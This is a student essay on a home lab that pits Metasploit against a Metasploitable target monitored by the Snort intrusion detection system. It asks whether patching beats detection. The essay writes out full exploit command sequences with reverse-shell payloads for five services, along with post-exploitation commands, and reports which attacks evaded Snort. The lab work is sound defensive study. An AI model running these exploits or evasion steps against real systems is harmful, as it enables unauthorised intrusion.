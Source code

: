 
# Is it easier to fix the application than to detect attacks?

A version of this essay with the correct formatting and references can be found here: https://github.com/JonQuxBurton/CyberSecurityBasewithF-Secure/blob/master/Project2/Is-it-easier-to-fix-the-application-than-to-detect-attacks.md

To research the question I setup the lab of Metasploit (a penetration testing tool), Metasploitable (a deliberately vulnerable system) and Snort (an Intrusion Detection System). 
I used Virtual Box running Metasploitable on a Windows 8 virtual machine (IP address: 192.168.0.6) and the Metasploit framework on an Ubuntu virtual machine (IP address: 192.168.0.4), which were both setup in a bridged network so they could communicate with each other.

In the Snort configuration file I enabled all the Community rules to give the best chance of detecting an attack.
I also installed Wireshark on the Snort machine, to inspect the traffic and check it was flowing.
I used the nmap command from the Ubuntu machine to test that Snort was creating alerts correctly, specifically:

sudo nmap -sP 192.168.0.6 -disable-arp-ping

With this setup I was able to find three attacks which produced Snort alerts and two attacks which did not, as follows.

The first attack which triggered a Snort alert was against ManageEngine, which is software for managing desktops and mobiles.
To trigger this alert I took the following steps:

Open MetaSploit console with the command sudo msfconsole. In the MetaSploit console enter the commands:

use exploit/windows/http/manageengine_connectionid_write

set payload windows/meterpreter/reverse_tcp

set rhost 192.168.0.6

set rport 8020

set lhost 192.168.0.4

set lport 443

exploit

This caused Snort to log the following alert:

03/18-14:39:10.347865  [**] [1:1054:14] SERVER-WEBAPP weblogic/tomcat .jsp view source attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 192.168.0.4:46771 -> 192.168.0.6:8020

So Snort has clearly detected the attack from the Web Application Attack rules.

The second attack which triggered a Snort alert was against SNMP (Simple Network Management Protocol).
This can be performed by using the following commands in the MetaSploit console:
use auxiliary/scanner/snmp/snmp_enum
set rhost 192.168.0.6
set rport 8020 
set lhost 192.168.0.4
set lport 443
exploit

This triggered the Snort alerts:

03/18-16:16:13.000689  [**] [1:1411:19] PROTOCOL-SNMP public access udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161

03/18-16:16:13.000689  [**] [1:1417:17] PROTOCOL-SNMP request udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161

So Snort has detected the attack and recorded an Attempted Information Leak.

The third attack which triggered a Snort alert was against the MySQL database service. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/mysql/mysql_udf_payload

set rhost 192.168.0.6

set rport 3306  

set lhost 192.168.0.4

set lport 443

exploit

This triggered the Snort alert:

03/18-14:59:00.631297  [**] [1:1394:17] INDICATOR-SHELLCODE x86 inc ecx NOOP [**] [Classification: Executable Code was Detected] [Priority: 1] {TCP} 192.168.0.4:40659 -> 192.168.0.6:3306

So Snort has detected the attack and recorded an Executable Code was Detected alert.

I was also able to evade Snort with two attacks.

The first was against Elasticsearch, which is a full-text search engine with a HTTP web interface. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/elasticsearch/script_mvel_rce

set rhost 192.168.0.6

set rport 9200 

set lhost 192.168.0.4

set lport 443

exploit

This copies a JAR file onto the victims computer and executes it, this connects back to Metasploit to create a shell. This is the Meterpreter console and I was able to use it to run commands on the victim computer, such as:

> upload /temp/trojan.exe c:\\

Copy an executable to the victim computer (not a real trojan, just an empty file).

> shell

Open a shell on the victim computer, followed by the command

> msg vagrant "Hello"

Pop up a message on the vagrant users screen.

No Snort alerts were triggered.

The second attack which evaded Snort was against Ruby on Rails, which is a web application framework. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/http/rails_web_console_v2_code_exec

set rhost 192.168.0.6

set rport 3000 

set lhost 192.168.0.4

set lport 443

exploit

I was then able to run the command:

> msg vagrant "Hello"

To pop up a message on the vagrant users screen.

No Snort alerts were triggered.

Though this shell seemed to be restricted as I was unable to get out of the directory C:\Program Files\Rails_Server
and running the command "dir" did then produce an alert:

03/18-15:16:46.820336  [**] [1:1292:12] INDICATOR-COMPROMISE directory listing [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.0.6:1502 -> 192.168.0.4:443

Though it is only of "Potentially Bad Traffic".

In conclusion I would say that the answer to the question "Is it easier to fix the application than to detect attacks?" is yes. I was able to evade an intruder detection system with two attacks, using a widely available tool, so a more experience attacker would be able to do this as well. 

A vulnerability in a application can be fixed by just patching it. The fix will be specific to the application and an application like Elasticsearch should never allow Remote Code Execution. Fixing this is a simpler problem than trying to detect an intruder. Doing this cannot be guaranteed to be effective one hundred percent of the time as an attacker can use advanced  techniques such as fragmentation and obfuscation.

Overall I found Snort to detect quite a lot of the attacks, but with the sensitivity turned up high there could also be a lot of false positives which would increase the chance of the alerts being ignored. Though I do think that an IDS could still be useful  as part of a defence in depth approach.

---

References

https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities
